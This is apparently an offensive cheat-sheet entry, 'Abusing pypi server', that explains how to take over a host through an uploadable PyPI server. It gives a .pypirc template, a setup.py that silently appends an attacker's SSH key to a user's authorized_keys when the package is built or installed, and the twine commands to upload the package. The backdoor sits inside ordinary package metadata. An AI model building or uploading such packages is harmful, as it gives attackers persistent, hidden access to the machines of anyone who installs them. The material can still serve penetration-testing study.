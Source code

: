 Abusing pypi server

## Have access to a pypi server and can upload files ?

- Install setuptools, twine and wheel on your attacking machine

- Create a .pypirc file in the $HOME directory :
```
[testpypi]
    repository: \<url_of_the_server\>
    username: \<username\>
    password: \<password\>
```

- Create a setup.py file :
```
import setuptools

try:
    with open("/home/low/.ssh/authorized_keys", "a") as f:
        f.write("mysshkey")
        f.close()

except Exception as e:
    pass

setuptools.setup(
    name="t0",
    version="0.0.1",
    author="Example Author",
    author_email="author@example.com",
    description="A small example package",
    long_description="",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    packages=setuptools.find_packages(),
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    )
```

- ```python3 setup.py sdist bdist_wheel```
- ```python3 -m twine upload --repository testpypi dist/*```